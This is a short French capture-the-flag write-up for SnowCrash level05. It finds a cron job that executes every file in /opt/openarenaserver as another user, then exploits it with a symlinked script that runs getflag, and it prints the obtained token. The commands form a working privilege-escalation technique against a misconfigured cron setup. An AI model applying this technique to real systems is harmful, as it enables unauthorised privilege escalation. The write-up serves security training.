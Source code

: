 # LEVEL 05

### Reconnaissance

On se connecte au level05:
```
level05@192.168.56.105's password: 
You have new mail.
```

On va regarder notre mail
```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Une tache cron, allons voir ce que sa fait:
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le programme va lire dans le répertoire /opt/openarenaserver et execute bash -x [nom du fichier]

### Exploitation

Creons un fichier avec un lien symbolic :) et attendons un peu ...

```
level05@SnowCrash:~$ echo "getflag > /tmp/flag05" > /tmp/exploit05 ; chmod +x /tmp/exploit05 ; ln -s /tmp/exploit05 /opt/openarenaserver/pwn_flag05 ; ls -la /opt/openarenaserver/pwn_flag05 ; cat /tmp/flag05
lrwxrwxrwx 1 level05 level05 14 Jun 28 12:18 /opt/openarenaserver/pwn_flag05 -> /tmp/exploit05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ 
```
